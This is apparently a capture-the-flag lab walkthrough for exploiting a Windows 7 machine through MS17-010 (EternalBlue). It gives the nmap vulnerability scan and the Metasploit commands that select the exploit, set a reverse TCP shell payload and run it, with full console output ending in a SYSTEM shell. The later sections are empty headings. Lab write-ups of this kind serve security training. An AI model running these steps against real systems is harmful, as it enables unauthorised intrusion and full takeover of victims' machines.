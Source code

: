# Exploiting Windows and Eternal Blue
## Recon
* Scan and learn what exploit the target is vulnerable to.
```
nmap -sV -vv --script vuln -oN TARGET_IP_scan.nmap TARGET_IP
```
  * `-sV` attempt to determine version of running services.
  * `-vv` for even more verbosity.
  * `--script vuln` runs all scripts in the NSE "vuln" category to check for specific known vulnerabilities.
    * Generally only reports results if they are found.
  * `-oN` saves results in "normal" format.
* Target is vulnerable to ms17-010.
```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
``` 
## Gain Access
* Exploit the machine and gain a foothold.
#### 1. Start Metasploit.
```
msfconsole
```
#### 2. Find exploitation code to run against the target.
```
search eternalblue type:exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
  0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
#### 3. Select exploit.
```
use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
#### 4. Show available exploit options.
```
show options
```
  * `set rhosts TARGET_IP`.
  * `set payload windows/x64/shell/reverse_tcp`.
#### 5. Execute exploit.
```
exploit

[*] Started reverse TCP handler on 10.10.173.11:4444 
[*] 10.10.38.72:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.38.72:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.38.72:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.38.72:445 - The target is vulnerable.
[*] 10.10.38.72:445 - Connecting to target for exploitation.
[+] 10.10.38.72:445 - Connection established for exploitation.
[+] 10.10.38.72:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.38.72:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.38.72:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.38.72:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.38.72:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.38.72:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.38.72:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.38.72:445 - Sending all but last fragment of exploit packet
[*] 10.10.38.72:445 - Starting non-paged pool grooming
[+] 10.10.38.72:445 - Sending SMBv2 buffers
[+] 10.10.38.72:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.38.72:445 - Sending final SMBv2 buffers.
[*] 10.10.38.72:445 - Sending last fragment of exploit packet!
[*] 10.10.38.72:445 - Receiving response from exploit packet
[+] 10.10.38.72:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.38.72:445 - Sending egg to corrupted connection.
[*] 10.10.38.72:445 - Triggering free of corrupted buffer.
```
#### 6. Confirm exploit has run properly.
```
[*] Command shell session 2 opened (10.10.173.11:4444 -> 10.10.38.72:49185) at 2024-02-20 09:58:59 +0000
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.38.72:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Shell Banner:
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
## Escalate
* Convert shell to meterpreter shell in metasploit.
* 
## Cracking
## Find Flags!
